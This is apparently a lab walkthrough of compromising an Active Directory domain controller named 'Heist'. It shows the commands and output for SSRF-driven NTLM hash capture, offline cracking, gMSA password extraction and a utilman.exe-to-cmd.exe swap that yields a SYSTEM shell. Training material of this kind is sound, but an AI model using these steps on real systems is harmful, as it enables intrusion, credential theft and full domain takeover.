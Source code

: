# Heist

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:09 +08
Nmap scan report for 192.168.240.165
Host is up (0.17s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8080/tcp  open  http-proxy
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49674/tcp open  unknown
49687/tcp open  unknown
49740/tcp open  unknown
```

This is an AD machine. There were no null credentials accepted by any service. Also, RDP is open.

### Secure Web Browser --> NTLM Capture

Port 8080 hosted a Secure Web Browser application:

<figure><img src="../../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to SSRF, and it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

We can view the exact request this is sending:

```
$ nc -lvnp 80                                 
listening on [any] 80 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.240.165] 49902
GET /hiiamssrf HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.45.216
```

This might be poisanable with `responder`, and I tested it:

<figure><img src="../../../.gitbook/assets/image (724).png" alt=""><figcaption></figcaption></figure>

This hash can be cracked instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
california       (enox)     
1g 0:00:00:00 DONE (2023-07-07 13:20) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then `evil-winrm` into the box:

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bloodhound --> ReadGMSAPassword

Remember to add this entry to the `/etc/hosts` file:

```
192.168.240.165 heist.offsec dc01.heist.offsec
```

Afterwards, we can run `bloodhound-python` on this domain:

```
$ bloodhound-python -d heist.offsec -u enox -p california -c all -ns 192.168.240.165
```

After the data is uploaded, we can see that `enox` is part of the Web Admins group:

<figure><img src="../../../.gitbook/assets/image (725).png" alt=""><figcaption></figcaption></figure>

This group has the ReadGMSAPassword privilege over the DC:

<figure><img src="../../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

There is one service account present on the domain, and it is `svc_apache`:

```
*Evil-WinRM* PS C:\Users\enox\desktop> dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/20/2021   4:25 AM                Administrator
d-----        2/17/2023   2:28 PM                enox
d-r---        5/28/2021   3:53 AM                Public
d-----        9/14/2021   8:27 AM                svc_apache$
```

To abuse this, we can use `GMSAPasswordReader.exe` to read the password.&#x20;

```
*Evil-WinRM* PS C:\Users\enox\desktop> .\gmsapasswordreader.exe --AccountName 'svc_apache$'
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F3BD314F41B2238B77AE44295B1692D0
[*]       aes128_cts_hmac_sha1 : C3E579495A9E7D2E628AF3706F4D3F8E
[*]       aes256_cts_hmac_sha1 : 9CE142EE695F99644C7E353BD41003A1DE557D49E964CE303580DE61839FB100
[*]       des_cbc_md5          : 29EC62D95B83C80E

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F545CFD20E81CB5F45ECBFC138298D74
[*]       aes128_cts_hmac_sha1 : 71BA26A3A3F8943448F3A30601D60CF2
[*]       aes256_cts_hmac_sha1 : E7729B725E69655399D18745127797D22D14E70ED8D6F40ED8CD2E89B71C361C
[*]       des_cbc_md5          : 0104797391E6C86D
```

We can then `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

### SeRestorePrivilege --> RDP Shell

This service user has the SeRestorePrivilege enabled:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

To exploit this, we can follow the methodology on PayloadAllTheThings:

<figure><img src="../../../.gitbook/assets/image (726).png" alt=""><figcaption></figcaption></figure>

We can execute these commands:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> Enable-SeRestorePrivilege
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> cd C:\Windows\System32
*Evil-WinRM* PS C:\Windows\System32> move utilman.exe utilman.old
*Evil-WinRM* PS C:\Windows\System32> move cmd.exe utilman.exe
```

Afterwards we need RDP access. We don't actually need to login, we just need to access the login page:

```
$ rdesktop -d heist.offsec -u enox -p california heist.offsec
```

![](<../../../.gitbook/assets/image (152).png>)

Just press the button on the bottom right, and it will spawn a SYSTEM shell:

<figure><img src="../../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

If you want to get a proper shell, then we can just add `enox` to the Domain Admins and Administrators groups with `net.exe`. Rooted!&#x20;
